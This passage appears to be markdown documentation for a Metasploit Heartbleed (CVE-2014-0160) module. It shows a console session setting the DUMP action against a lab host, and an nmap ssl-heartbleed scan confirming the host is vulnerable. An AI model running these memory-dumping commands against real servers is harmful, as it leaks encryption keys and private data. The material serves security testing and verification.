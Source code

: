 ```
msf > use auxiliary/scanner/ssl/openssl_heartbleed
msf auxiliary(scanner/ssl/openssl_heartbleed) > set rhosts 222.222.2.222
rhosts => 222.222.2.222
msf auxiliary(scanner/ssl/openssl_heartbleed) > set action DUMP
action => DUMP
msf auxiliary(scanner/ssl/openssl_heartbleed) > repeat -n 10 run

[*] 222.222.2.222:443     - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
[*] 222.222.2.222:443     - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
[*] 222.222.2.222:443     - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
[*] 222.222.2.222:443     - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
[*] 222.222.2.222:443     - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
[*] 222.222.2.222:443     - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
[*] 222.222.2.222:443     - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
[*] 222.222.2.222:443     - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
[*] 222.222.2.222:443     - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
[*] 222.222.2.222:443     - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
## Confirming using NMAP

Utilizing the [ssl-heartbleed](https://nmap.org/nsedoc/scripts/ssl-heartbleed.html) script, we can replicate
the `SCAN` action.

```
# nmap -p 44330 --script ssl-heartbleed 222.222.2.222
Starting Nmap 7.80 ( https://nmap.org ) at 2019-10-16 17:52 EDT
Nmap scan report for ubuntu1804.romain (222.222.2.222)
Host is up (0.0017s latency).

PORT      STATE SERVICE
44330/tcp open  unknown
| ssl-heartbleed:
|   VULNERABLE:
|   The Heartbleed Bug is a serious vulnerability in the popular OpenSSL cryptographic software library. It allows for stealing information intended to be protected by SSL/TLS encryption.
|     State: VULNERABLE
|     Risk factor: High
|       OpenSSL versions 1.0.1 and 1.0.2-beta releases (including 1.0.1f and 1.0.2-beta1) of OpenSSL are affected by the Heartbleed bug. The bug allows for reading memory of systems protected by the vulnerable OpenSSL versions and could allow for disclosure of otherwise encrypted confidential information as well as the encryption keys themselves.
|
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-0160
|       http://cvedetails.com/cve/2014-0160/
|_      http://www.openssl.org/news/secadv_20140407.txt
MAC Address: 00:0C:29:AA:AA:AA (VMware)

Nmap done: 1 IP address (1 host up) scanned in 0.42 seconds
```
